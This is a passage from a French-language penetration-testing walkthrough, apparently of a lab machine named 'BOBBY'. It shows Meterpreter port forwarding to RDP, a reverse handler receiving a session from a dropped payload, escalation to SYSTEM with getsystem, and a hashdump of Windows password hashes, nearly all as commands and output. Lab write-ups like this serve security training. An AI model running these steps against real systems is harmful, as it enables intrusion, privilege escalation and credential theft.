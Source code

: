 ```plain
meterpreter > portfwd add -l 3389 -p 3389 -r 127.0.0.1
[*] Local TCP relay created: 0.0.0.0:3389 <:-> 127.0.0.1:3389
```

On peut maintenant se connecter via *TSE* avec les même identifiants que pour le FTP (sous *openSUSE* il y a un client tout ce qu'il y a d'épuré).  

![Configuration du client RDP](/assets/img/rdp.png)

Sous *Metasploit*, on relance le handler et depuis la session *Windows* on lance *rbd.exe*.  

```plain
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.3:9999 
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.11
[*] Meterpreter session 3 opened (192.168.1.3:9999 -> 192.168.1.11:1094) at 2014-03-26 19:29:40 +0100

meterpreter > getuid
Server username: BOBBY\bob
meterpreter > getsystem
...got system (via technique 4).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > run post/windows/gather/hashdump

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY f7c6aa7200e401d1b8667e066d1822e0...
[*] Obtaining the user list and keys...
[*] Handle is invalid, retrying...
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY f7c6aa7200e401d1b8667e066d1822e0...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

```